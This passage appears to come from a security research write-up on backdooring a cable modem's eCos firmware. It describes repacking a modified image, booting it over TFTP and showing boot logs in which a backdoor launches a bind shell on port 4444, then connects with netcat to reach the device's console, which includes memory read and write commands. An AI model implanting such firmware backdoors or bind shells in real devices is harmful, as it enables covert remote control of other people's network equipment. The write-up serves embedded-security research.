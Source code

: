 We repack it, serve it over TFTP and let it boot. As we can see from the boot logs below, our malicious code is executing successfully.

Note that if we wanted our code to run in a single window without being prempted by the scheduler, we could add calls to `cyg_scheduler_lock` and `cyg_scheduler_unlock`. This way our logs would no longer be spread around in the boot logs :)

{% highlight asm %}
--boot--
ItcRxThreadCreating SNMP agent eRouter Proxy Agent
eRouter Proxy Agent disabling management.
eRouter Proxy Agent deferring traps.
Enabling SNMP proxy
Vendor CM Agent w/ BRCM Factory Support destroying notifies...
[!] LAUNCHING BACKDOOR
Warning: service [: Current IP address is default 0.0.0.0.

Configuring IP stack 2:  IP Address = 192.168.100.1
[+] Launching bind shell on 0.0.0.0:4444
--snip--
[00:00:19 01/01/1970] [tStartup] BcmNonVolDeviceDriverBridge::WriteSync:  (NonVol Device) Synchronous write to dynamic nonvol section succeeded
BcmSnmpThread starting thread operation.
Received RG Event 0x80000001 State 0x0
Received eRouter BOOTED event from RG
Enabling SNMP proxy
Initializing Net-SNMP transport for IPv4
Initializing Net-SNMP transport for IPv6
SNMP startup complete.
SpecA - IP Stack address is 0.0.0.0
mongoose set_ports_option: listening on:(IPv4) 0.0.0.0; port:8080
[+] bind successful
--snip--
AVS Thread Start:Arming poll timer....
NvPollMilliseconds = 1000
RMON = 1.042, sigma = 0.702
[+] listen successful0PMC AVS Thread Start: Done.
{% endhighlight %}

The device is fully functional, and we have a bind shell:

{% highlight asm %}
nc 192.168.22.1 4444
ls
!               ?               REM             call            cd
dir             find_command    help            history         instances
ls              man             pwd             sleep           syntax
system_time     usage
----
btcp            con_high        cpuLoad         cpuUtilization  exit
mbufShow        memShow         mutex_debug     ping            read_memory
reset           routeShow       run_app         shell           socket_debug
stackShow       taskDelete      taskInfo        taskPrioritySet taskResume
taskShow        taskSuspend     taskSuspendAll  taskTrace       version
write_memory    zone
----
[80211_hal] [Console] [HeapManager] [HostDqm] [cablemedea] [eRouter]
[embedded_target] [enet_hal] [fam] [forwarder] [ftpLite] [httpClient]
[ip_hal] [itc_hal] [msgLog] [non-vol] [pingHelper] [power] [snmp] [snoop]
[tr69]
{% endhighlight %}

